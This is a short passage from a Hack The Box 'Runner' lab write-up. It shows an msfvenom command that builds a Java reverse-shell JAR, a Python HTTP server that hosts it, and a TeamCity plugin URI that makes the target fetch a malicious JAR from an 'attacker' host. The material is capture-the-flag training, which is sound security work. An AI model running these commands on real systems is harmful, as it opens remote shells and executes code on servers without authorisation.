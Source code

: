 
![](/assets/obsidian/db079f76c97a00ce48265c6ee70cb79f.png)

Generate a java reverse shell payload then host on http server

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ mkdir www

┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ cd www

┌──(bravosec㉿fsociety)-[~/htb/Runner/www]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=$(pt get lhost) LPORT=1111 -f jar > rev.jar
Payload size: 7498 bytes
Final size of jar file: 7498 bytes


┌──(bravosec㉿fsociety)-[~/htb/Runner/www]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

After the server was restarted, load `jar` reverse shell

- URI format

```bash
http://teamcity/demoPlugin.html?file_url=http://attacker/my_malicious.jar&file_path=random_name.jar
```

![](/assets/obsidian/e09d8cc0bf1abb3de30e509a92e5729c.png)
